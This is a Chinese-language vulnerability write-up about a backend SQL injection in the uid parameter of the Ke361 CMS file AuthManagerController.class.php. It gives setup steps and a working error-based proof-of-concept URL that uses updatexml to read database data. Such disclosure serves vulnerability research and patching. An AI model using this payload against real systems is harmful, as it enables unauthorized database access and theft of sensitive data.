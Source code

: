 # Ke361 AuthManagerController.class.php 后台SQL注入漏洞

## 漏洞描述

Ke361 AuthManagerController.class.php uid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](/assets/PeiQi-Wiki/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313232823896.png)

存在漏洞的文件为 `Application/Admin/Controller/AuthManagerController.class.php`

![img](/assets/PeiQi-Wiki/img/1634142335709-0384ef5c-e05b-41af-b19d-a5b7864faaf3.png)

验证POC

```php
/admin.php?s=/AuthManager/group/uid/1')%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](/assets/PeiQi-Wiki/img/1634142341220-a0120691-16d8-41e2-be07-abcaa561347f.png)